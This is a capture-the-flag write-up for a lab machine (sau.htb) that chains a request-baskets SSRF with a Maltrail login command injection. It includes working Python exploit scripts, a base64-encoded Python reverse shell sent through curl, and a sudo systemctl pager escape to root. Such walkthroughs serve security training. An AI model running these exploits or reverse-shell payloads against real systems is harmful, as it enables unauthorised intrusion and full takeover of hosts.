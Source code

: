 ## Port Scan

```shell
└─$ nmap 10.10.11.224 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-04 08:23 EST
Nmap scan report for 10.10.11.224
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=12/4%Time=656DD2D6%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Mon,\x2004\x20Dec\
SF:x202023\x2012:23:34\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Mon,\x2004\x20Dec\
SF:x202023\x2012:23:35\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Mon,\x2004\x20Dec\x202023\x2012:24:00\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.18 seconds
```

There is an accessible website listening on port 55555.

**WARNING: doing more scan, also port 8338 seems to be available!**

Port 55555 is the only one that can be accessed, the other ports are firewalled.
## Website

The website is really simple but it shows that it's using `requests-baskets` at the bottom. 
That software is known to be vulnerable to a SSRF that is easily found online.

This vulnerability allows to create an actual proxy on the server so that firewalled ports can be checked from the inside.

Sending the following command one can create a basket named `randomstring` that forwards all requests to the `forward_url`.

```python
>>> r = requests.post("http://sau.htb:55555/api/baskets/randomstring", data={"forward_url": "http://127.0.0.1:8338", "proxy_response": True, "insecure_tls": False, "expand_path": True, "capacity": 250})
>>> r.content
b'{"token":"b9PWVxKGKMQPqhz2M62JSc7PH1cHyJF0gswbhr1SpZRm"}'
```

Once created one can access the basket via `http://sau.htb:55555/randomstring` and all requests will be simply forwarded; responses will be received afterwards. So that's effectively a proxy.

To access the URL, by the way it is important to add the `Authorization` entry into the HTTP headers. The value corresponds to the token obtained in the creation of the basket.

With a script like this we can do everything:

```python
import json
import random
import requests
import string
import sys

attack_url = sys.argv[1]

letters = string.ascii_lowercase
random_name = ''.join(random.choice(letters) for i in range(10))
api_url = "http://sau.htb:55555/api/baskets/" + random_name
url = "http://sau.htb:55555/" + random_name
collect_url = "http://sau.htb:55555/api/baskets/" + random_name + "/requests"

print("Testing basket", random_name)
r = requests.post(api_url, 
    headers={"Content-Type": "application/json"},
        json={
        "forward_url": attack_url,
        "proxy_response": True, 
        "insecure_tls": False, 
        "expand_path": True, 
        "capacity": 250
        })
if not r.ok:
        print("Error")
        print(r.headers)
        print(r.content)
        sys.exit()
else:
    token = json.loads(r.content)['token']
    print(token)

r = requests.get(url, headers={"Authorization": token})
if not r.ok:
        print("Error in GET1")
        sys.exit()
else:
        print(r.headers)
        print(r.content)

```

Now we try with `forward_url`: `http://127.0.0.1:8338` and we read the HTML returning in the response and it shows a link to a Google Sheet document.

The google sheet document is a document created by `Maltrails`, another software with a known vulnerability.

## Combining Vulnerabilities

There is an existing exploit for `Maltraits`. Encoding in base64 the username in the login endpoint, one can get RCE. Here is the modified code to adapt to this specific scenario, with the proxy provided by `request-baskets`.

```python

import sys
import os
import base64

if len(sys.argv) != 5:
    print("Error. Needs listening IP, PORT and target URL.")
    sys.exit(-1)

my_ip = sys.argv[1]
my_port = sys.argv[2]
token = sys.argv[4]
target_url = sys.argv[3]

print("Running exploit on " + str(target_url))

payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
command = f"curl '{target_url}' -H 'Authorization: {token}'  --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
print(command)
os.system(command)

```

This opens a reverse shell, just have a netcat listening on `my_ip`:`my_port`.
The `target_url` has to be created first in the initial step, then the token must be manually passed to this script.

The reverse shell is open, the `user.txt` file is in `/home/puma` and the flag is done.

## Privilege Escalation

Running `linpeas.sh` we see that the command:

```shell
sudo /usr/bin/systemctl status trail.service
```

can be executed from non-privileged users. 
This opens the pager that shows the systemd log of the service.

But the pager allows to run shell commands as commands!
Just type `:` and once the prompt allows for it, type `!sh`

This opens a shell with administrator rights.

The `root.txt` file is in `/root` and we got the flag!